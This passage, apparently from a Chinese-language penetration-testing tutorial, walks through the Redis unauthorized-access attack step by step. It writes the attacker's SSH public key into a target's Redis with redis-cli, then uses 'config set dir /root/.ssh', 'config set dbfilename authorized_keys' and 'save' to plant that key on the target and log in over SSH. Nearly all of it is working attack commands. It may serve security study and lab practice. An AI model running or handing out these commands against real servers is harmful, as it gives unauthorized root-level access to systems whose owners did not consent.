 ![img](assets/1700555906639-524ca3fd-0f69-450f-8bfc-06cbcff0fd45.jpeg)

然后将公钥导入key.txt文件(前后用\n换行，避免和Redis里其他缓存数据混合)，再把key.txt文件内容写入目标主机的redis缓冲里：

(echo -e "\n\n"; cat /root/.ssh/id_rsa.pub; echo -e "\n\n") > key.txt cat key.txt | redis-cli -h 192.168.1.8 -x set xxx // -x 代表从标准输入读取数据作为该命令的最后一个参数。

![img](assets/1700555907015-9d249965-ff94-4dcb-ba4a-8b25dde39375.jpeg)

然后使用攻击机连接目标机器Redis，分别执行如下命令将ssh公钥写入目标主机：

config set dir /root/.ssh    # 设置redis的备份路径为/root/.ssh/ config set dbfilename authorized_keys    # 设置保存文件名为authorized_keys save    # 将数据保存在目标服务器硬盘上

![img](assets/1700555907057-f180370d-26d9-4a7e-8995-a2078c831805.jpeg)

写入成功后直接尝试连接：

ssh 192.168.1.8

